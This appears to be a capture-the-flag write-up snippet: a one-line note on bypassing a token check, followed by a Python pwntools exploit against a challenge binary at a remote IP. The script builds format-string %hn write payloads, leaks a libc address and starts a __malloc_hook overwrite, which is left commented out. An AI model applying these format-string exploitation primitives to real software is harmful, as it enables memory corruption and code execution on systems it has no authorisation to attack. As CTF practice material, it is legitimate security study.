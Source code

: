 Actually the restriction is easier to bypass than second version,
`X813373XXXXXX931337` can pass the check.

```python  
from pwn import *

g_local=0  
context(log_level='debug', arch='amd64')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")  
if g_local:  
	sh = process(["./ross.elf", "flag{test}"])  
	gdb.attach(sh)  
else:  
	sh = remote("82.196.10.106", 31337)

def hn(pos, val):  
	assert val < 0x10000  
	if val == 0:  
		return "%" + str(pos) + "$hn"  
	else:  
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def cont_shoot(poses, vals, prev_size = 0):  
	assert len(poses) == len(vals)  
	size = len(poses)  
	ret = ""  
	i = 0  
	cur_size = prev_size  
	next_overflow = ((prev_size + 0xffff) / 0x10000) * 0x10000  
	while i < size:  
		assert next_overflow >= cur_size  
		num = next_overflow - cur_size + vals[i]  
		if num < 0x10000:  
			ret += hn(poses[i], num)  
			next_overflow += 0x10000  
		else:  
			num = vals[i] - (cur_size - (next_overflow - 0x10000))  
			assert num >= 0  
			ret += hn(poses[i], num)  
		cur_size += num  
		i += 1  
	return ret

sh.recvuntil("Enter your token: ")  
sh.send("X813373XXXXXX931337")  
sh.recvuntil("your nick: ")  
sh.sendline("admin")  
sh.recvuntil(">> ")  
sh.sendline("1")

sh.recvuntil("admin: ")

def format_exp(payload):  
	sh.sendline(payload)  
	sh.recvuntil("invalid: \\")  
	ret = sh.recvuntil('\n')  
	sh.recvuntil("admin: ")  
	return ret[:-1]

libc_addr = int(format_exp("\\%2$p")[2:], 16) - 0x3ed8c0  
print hex(libc_addr)

#mh = libc_addr + e.symbols["__malloc_hook"]  
#format_exp('\\' + cont_shoot([mh, mh+2, mh+4], []))  
```